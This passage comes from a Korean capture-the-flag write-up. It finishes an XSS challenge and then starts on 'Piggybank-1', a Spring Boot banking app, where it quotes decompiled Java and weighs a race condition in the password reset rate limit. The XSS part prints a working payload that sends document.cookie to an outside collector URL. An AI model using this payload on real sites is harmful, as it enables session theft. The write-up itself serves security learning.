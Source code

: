 CSP가 따로 적용되어 있지 않기 때문에 javascript payload를 바로 전송하면 되고,
bot 컨테이너에서 web 컨테이너로 XSS 공격을 진행하여 bot 컨테이너에서 XSS 공격을 통해 cookie 값을 공격자 서버로 전송하면 된다:
```
{% raw %}{"headers": {"\n<script>location.replace('https://en0p6pk0whwo3e.x.pipedream.net/?cookie=test'.replace('test', document.cookie))</script>": ""}}{% endraw %}
```
![](https://dreamhack-media.s3.amazonaws.com/attachments/9d8a133f921218a227a02193fb6f274814bd0c5b6353deb722e3e678f184e56a.png)

# Piggybank-1
## Overview
springboot를 이용하여 jar 형태로 배포된 가상의 은행 웹서비스이다.

admin의 비밀번호를 변경하는 것이 목표로 보인다.
이를 위해 맨 처음 의심한 부분은 race-condition 취약점이다:
`UserPasswordResetService:doChallenge:`
```java
            if (canLock(challengeToken)) {
                Object obj2 = this.redis.get(getCHALLENGE_INDEX_PREFIX() + ":" + challengeToken);
                if (obj2 == null || (obj = obj2.toString()) == null || (split$default = StringsKt.split$default((CharSequence) obj, new String[]{","}, false, 0, 6, (Object) null)) == null) {
                    throw new UserServiceException("challenge 코드가 만료되었습니다.");
                }
                Iterable $this$map$iv = split$default;
                Collection destination$iv$iv = new ArrayList(CollectionsKt.collectionSizeOrDefault($this$map$iv, 10));
                for (Object item$iv$iv : $this$map$iv) {
                    String it = (String) item$iv$iv;
                    destination$iv$iv.add(Integer.valueOf(Integer.parseInt(it)));
                }
                List<Number> challengeIndex = (List) destination$iv$iv;
                Object obj3 = this.redis.get(getCHALLENGE_TOKEN_PREFIX() + ":" + challengeToken);
                if (obj3 == null || (userName = obj3.toString()) == null) {
                    throw new UserServiceException("challenge token이 만료되었습니다.");
                }
                User userInfo = this.userRepository.findUserByUsername(userName);
                if (userInfo == null) {
                    throw new UserServiceException("예상치 못한 에러가 발생 했습니다.");
                }
                List userSecureCode = StringsKt.split$default((CharSequence) userInfo.getSecureCode(), new String[]{","}, false, 0, 6, (Object) null);
                int rateLimitCount = getRateLimit(challengeToken);
                Thread.sleep(8000L);
                checkRateLimit(rateLimitCount);
                int i = 0;
                for (Number number : challengeIndex) {
                    int index = i;
                    i++;
                    int challIndex = number.intValue();
                    if (!Intrinsics.areEqual(userSecureCode.get(challIndex - 1), answer.get(index))) {
                        setRateLimit(challengeToken, rateLimitCount + 1);
                        throw new UserServiceException("올바르지 않은 secure code 입니다. 실패 횟수: " + (rateLimitCount + 1));
                    }
                }

```
내부 redis 데이터베이스로부터 rateLimitCount를 가져오고, 해당 값이 7 이상이 되면 비밀번호를 초기화시킬 수 없다.
하지만 getRateLimit과 setRateLimit 사이에 Thread.sleep(8000)이 존재하기 때문에 rateLimit이 0일 때 여러 요청을 발생시켜 여러 번 비밀번호 초기화 challenge를 수행할 수 있을 줄 알았다.
하지만 canLock 함수를 통해 database lock이 구현되어 있었다.
해당 값도 변조가 가능할 것 같지만 내가 가지고 있는 정보로는 불가능했다: